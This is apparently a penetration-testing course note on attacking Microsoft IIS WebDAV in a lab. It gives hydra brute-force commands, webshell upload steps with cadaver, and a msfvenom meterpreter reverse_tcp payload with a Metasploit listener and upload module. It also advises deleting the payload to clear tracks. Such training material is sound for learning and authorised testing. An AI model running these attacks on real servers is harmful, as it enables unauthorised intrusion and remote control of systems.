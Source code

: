 # 1 - Microsoft IIS WebDav

## **Microsoft IIS**

* IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.
* It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.
* IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.
* Typically configured to run on ports 80/443.
* Supported executable files extensions:
  * .asp
  * .aspx
  * .config
  * .php

## **WebDAV**

* WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
* WebDAV essentially enables a web server to function as a file server for collaborative authoring.
* WebDAV runs on top of Apache(Linux) or Microsoft IIS(Windows) on ports 80/443.
* In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

## **WebDAV Exploitation**

* The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.
* We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
* After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

## **Tools**

* **davtest** - Used to scan, authenticate and exploit a WebDAV server. Giving us information as to what kind of files we can upload and execute on the WebDav server.
  * Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.
* **cadaver** - cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creations and deletion, property manipulation, and resource locking on WebDav servers.
  * &#x20;Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.



## **Practical Demonstration**

## Manually

**1 - We do an nmap scan to identify service versions on the host.**

* `nmap -sV -sC $ip` - scan the host.
* `nmap -sV -p 80 --script=http-enum 192.168.0.141` - indepth scan on port 80. This returns a "/webdav/" directory with a (401 Unauthorised) meaning WebDav is configured and Authentication is allowed.
* `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.29.107 http-get /webdav/` -  Bruteforce WebDAV authentication.

**2 -** **We can proceed with the credentials and use the \[davtest] tool to check what kind of files we can upload and execute in the WebDav server.**

`davtest -url http://$ip` -  if there's no authentication required.

`davtest -auth bob:password_123321 -url http://$ip` -  in this case we provide auth details, and found that we can upload ".txt, .html and .asp" files.

**3 - We can now use the \[cadaver] utility to upload a malicious ".asp" file to the WebDav server.**

`cadaver http://$ip/webdav` - provides us with a psuedo shell that allows us interact with the WebDav server. \[ls] to list files.

4 - Upload a webshell file to the server. `put /usr/share/webshells/asp/webshell.asp` .

5 - load the page, then execute the payload file.

### Cmds you can run in the WebDev shell

```bash
whoami
ipconfig
dir C:\  # list the content of the C drive root.
type C:\flag.txt  # output the content of the flag.
```



## Exploiting WebDAV With Metasploit

### Practical Demonstration

### Exploiting Manually with \[msfvenom] utility:&#x20;

```bash
# step 1
# generating .asp payload with msfvenom.
# its better to use the 32bit architecture for the payload if you are not sure whether the target is 32bit or 64bit.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kali_Ip LPORT=1234 -f asp > shell.asp

# step 2
# use cadaver to upload the file.
cadaver http://$ip
put /path_to_payload # example /root/shell.asp

# step 3
# setup a listener to catch the reverse shell connection.
# you can use [nc] or [msf multi-handler]
sevice postgresql start && msfconsole  # here we use the Metasploit
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $kali_ip
set LPORT 1234
run  # this will startup our reverse_tcp listener

# step 4
# execute/click the payload (shell.asp) file from the web browser
# we get a metepreter shell.
sysinfo
getuid

# after successful exploitation, you can delete the payload to clear tracks.
# using the cadaver utility.
delete shell.asp
```

### Exploiting Automatically with Metasploit

```bash
# step 1
search iis upload  # in metasploit.
use exploit/windows/iis/iis_webdav_upload.asp
# you can leave the default 32bit reverse_tcp payload.
show options
# since this process automates everything, we have to provide the WebDav credentials.
set HTTPUsername bob
set HTTPPassword password_123321
set RHOSTS $ip
# you can set the RPORT value to 443, and SSL to true if the WebDav server has an SSL certificate available.
# set the path to which  the file will be uploaded, give the payload a name (metasploit.asp).
set PATH /webdav/metasploit.asp
exploit
# we get a meterpreter shell!
```



